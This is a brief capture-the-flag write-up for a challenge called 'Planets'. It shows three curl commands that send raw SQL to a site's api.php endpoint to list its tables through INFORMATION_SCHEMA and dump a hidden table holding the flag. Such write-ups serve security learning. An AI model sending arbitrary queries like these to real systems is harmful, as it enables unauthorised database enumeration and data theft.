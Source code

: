 # Planets

Open the website <https://planets.ctf.zone/>, found the following api endpoint:

```shell
curl 'https://planets.ctf.zone/api.php' \
  --compressed \
  -X POST \
  -H 'Accept: */*' \
  -H 'Content-type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Origin: https://planets.ctf.zone' \
  --data-raw 'query=SELECT * FROM planets'
```

Find all tables using INFORMATION_SCHEMA.TABLES:


```shell
curl 'https://planets.ctf.zone/api.php' \
  --compressed \
  -X POST \
  -H 'Accept: */*' \
  -H 'Content-type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Origin: https://planets.ctf.zone' \
  --data-raw 'query=SELECT * FROM INFORMATION_SCHEMA.TABLES'
```

Found a table named abandoned_planets, find its rows with flags in them:

```shell
curl 'https://planets.ctf.zone/api.php' \
  --compressed \
  -X POST \
  -H 'Accept: */*' \
  -H 'Content-type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Origin: https://planets.ctf.zone' \
  --data-raw 'query=SELECT * FROM abandoned_planets'
```

Solved!
